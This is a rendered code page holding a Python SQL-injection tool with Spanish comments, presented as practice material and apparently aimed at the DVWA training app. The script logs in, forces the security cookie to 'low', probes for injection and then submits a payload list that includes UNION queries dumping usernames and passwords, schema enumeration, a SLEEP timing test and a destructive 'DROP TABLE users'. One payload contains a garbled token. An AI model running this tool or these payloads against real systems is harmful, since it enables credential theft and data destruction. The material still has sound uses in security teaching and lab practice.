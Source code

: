# 👹 DETECCION E INYECCION SQL                P4InyeccionSQL.py

````python
// Some code

```python
#! herramienta para practicar, deteccion e inyeccion SQL - P4InyeccionSQL.py - By P4IM0N

#?-----------------------------------------------------------------------------------------------------------------
#LIBRERIAS
import mechanize
from bs4 import BeautifulSoup
import time

#?-----------------------------------------------------------------------------------------------------------------
#COLORES
COLOR_VIOLETA = "\033[95m"
COLOR_VERDE = "\033[92m"
COLOR_ROJO = "\033[91m"
COLOR_AZUL = "\033[94m"
COLOR_AMARILLO = "\033[93m"
COLOR_TURQUESA = "\033[96m"
COLOR_RESET = "\033[0m"

#?-----------------------------------------------------------------------------------------------------------------
#BANNER
banner = f'''{COLOR_VIOLETA}

__________  _____ .___                                 .__                _________________  .____     
\______   \/  |  ||   | ____ ___.__. ____   ____  ____ |__| ____   ____  /   _____/\_____  \ |    |    
 |     ___/   |  ||   |/    <   |  |/ __ \_/ ___\/ ___\|  |/  _ \ /    \ \_____  \  /  / \  \|    |    
 {COLOR_RESET}{COLOR_AZUL}|    |  /    ^   /   |   |  \___  \  ___/\  \__\  \___|  (  <_> )   |  \/        \/   \_/.  \    |{COLOR_RESET}{COLOR_VIOLETA}___ 
 |____|  \____   ||___|___|  / ____|\___  >\___  >___  >__|\____/|___|  /_______  /\_____\ \_/_______ !
              |__|         \/\/         \/     \/    \/               \/        \/        \__>       \/
{COLOR_RESET}{COLOR_VERDE}By P4IM0N{COLOR_RESET}'''

print(banner)

#?-----------------------------------------------------------------------------------------------------------------
#LISTA INYECCIONES SQL 
payloadSQL = [
    "' OR '1'='1'; --",
    "' UNION SELECT null, username, password FROM users; --",
    "' OR 1=1; --",
    "' OR '1'='1'-- ",
    "' OR '1'='1' AND 'a'='b'; --",
    "'; DROP TABLE users; --",
    "' OR EXISTS(SELECT * FROM users WHERE username = 'admin' AND password LIKE '%pass%'); --",
    "' OR SLEEP(5); --",
    "' UNION SELECT null, TABLE_NAME, null FROM INFORMATION_SCHEMA.TABLES; --",
    "' UNION SELECT null, COLUMN_NAME, nulchanizel FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'; --"
]

#?-----------------------------------------------------------------------------------------------------------------
#FUNCION PRINCIPAL
def main():
    #?ingreso del objetivo
    objetivo = input(COLOR_AZUL+'Manito porfavor dame la URL del objetivo: '+COLOR_RESET)
    print(COLOR_AZUL+f'------------------------------------------{COLOR_TURQUESA}EMPECEMOS MANITO{COLOR_RESET}{COLOR_AZUL}----------------------------------------'+COLOR_RESET)
    
    #?configuracion de mechanize para usarlo
    navegador = mechanize.Browser()
    navegador.set_handle_robots(False)
    navegador.set_handle_equiv(False)
    navegador.set_handle_redirect(True)
    navegador.addheaders = [('User-Agent', 'Firefox')]
    navegador.open(objetivo)
    
    #?seleccionar formulario y mandar informacion
    navegador.select_form(nr=0)
    navegador['username'] = 'admin'
    navegador['password'] = 'password'
    navegador.submit()
    
    #?capturar la cookie de nuestro inicio de sesion
    cookies = navegador._ua_handlers['_cookies'].cookiejar
    #?cambiar el valor de seguridad de la cookie a 'low'
    for cookie in cookies:
        if cookie.name == 'security':
            cookie.value = 'low'
    #?agregamos ya la cookie modificada a la solicitud http
    navegador.set_cookiejar(cookies)
    print(COLOR_AZUL+f'-------------------------------------------{COLOR_TURQUESA}COOKIE MODIFICADA{COLOR_RESET}{COLOR_AZUL}--------------------------------------'+COLOR_RESET)
    print(cookies)      
    print(COLOR_AZUL+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
    
    #?cargando el objetivo numero 2, ya en la seccion de inyeccion SQL
    objetivo2 = objetivo.replace('/login.php', '/vulnerabilities/sqli/')
    print(COLOR_AZUL+f'-------------------------------------------{COLOR_TURQUESA}OBJETIVO A INYECTAR{COLOR_RESET}{COLOR_AZUL}------------------------------------'+COLOR_RESET)
    print(objetivo2)
    print(COLOR_AZUL+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
    navegador.open(objetivo2)
    
    #?seleccionamos formulario y mandamos inyeccion, en el objetivo final numero 2
    navegador.select_form(nr=0)
    navegador['id'] = "'"
    navegador.submit()
    
    #?usamos bs4 con beautifulsoup para explorar el HTML en buca de la respuesta positiva o negativa con respecto a la inyeccion
    objetivo_parseado = BeautifulSoup(navegador.response().read(), 'html5lib')
    print(COLOR_VIOLETA+f'-----------------------------------------{COLOR_TURQUESA}VULNERABLE A INYECCIONES SQL{COLOR_RESET}{COLOR_VIOLETA}-----------------------------'+COLOR_RESET)
    print(objetivo_parseado.find('pre'))
    print(COLOR_VIOLETA+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
    
    #?vamos a usar un loop for para iterar en toda nuesstra lista de solicitudes, consultas, payload de inyecciones SQL
    try:
        
        #?verificamos si se encontro vulnerable la pagina en primera instancia
        if objetivo_parseado.find('pre'):
            
            #?iteramos entre cada carga util àra inyectar e iniciamos en cada loop nuestra url objetivo2 para ver la respuesta tras la inyeccion de ese mopmento
            for inyecc in payloadSQL:
                time.sleep(1)
                navegador.open(objetivo2)
                navegador.select_form(nr=0)
                navegador['id'] = inyecc
                navegador.submit()
                objetivo_parseado_inyectandoce = BeautifulSoup(navegador.response().read(), 'html5lib')
                print(COLOR_AMARILLO+f'-------------------------------{COLOR_TURQUESA}INYECTAMOS{COLOR_RESET}{COLOR_AMARILLO}---------------------------------------------------------'+COLOR_RESET)
                print(COLOR_AMARILLO+inyecc+COLOR_RESET)
                print(COLOR_AMARILLO+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
                
                #?loop para extraer todas las etiquetas pre obtenidas con find_all una por una si hubiera
                resultado = objetivo_parseado_inyectandoce.find_all('pre')
                for pre in resultado:
                    print(COLOR_VIOLETA+f'-------------------------{COLOR_TURQUESA}INFORMACION TRAS LA INYECCION{COLOR_RESET}{COLOR_VIOLETA}--------------------------------------------'+COLOR_RESET)
                    print(COLOR_VIOLETA+pre.text+COLOR_RESET)
                    print(COLOR_VIOLETA+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
                    
        else:
            print(COLOR_ROJO+'------------------------------------------------NO VULNERABLE--------------------------------------------------'+COLOR_RESET)
            print(f'{COLOR_ROJO}Manito el sitio web parece no ser viulnerable a inyecciones SQL{COLOR_RESET}  {COLOR_VIOLETA}8({COLOR_RESET} ') 
            print(COLOR_ROJO+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)    
    
    except TypeError as error:
        print(COLOR_ROJO+'----------------------------------------------------ERROR----------------------------------------------'+COLOR_RESET)
        print(f'{COLOR_ROJO}Manito ocurrio un error de este tipo:{COLOR_RESET}{COLOR_VIOLETA}{error}{COLOR_RESET}')         
        print(COLOR_ROJO+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)               
                    
#?-----------------------------------------------------------------------------------------------------------------
#EJECUCION
if __name__=='__main__':
    try:
        main()
    except KeyboardInterrupt:
        print(COLOR_AZUL+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
        print('gracias manito hasta aca llegamos, nos vecmos :D')
        print(COLOR_AZUL+'--------------------------------------------------------------------------------------------------'+COLOR_RESET)
        exit()    

#?-----------------------------------------------------------------------------------------------------------------
```
````
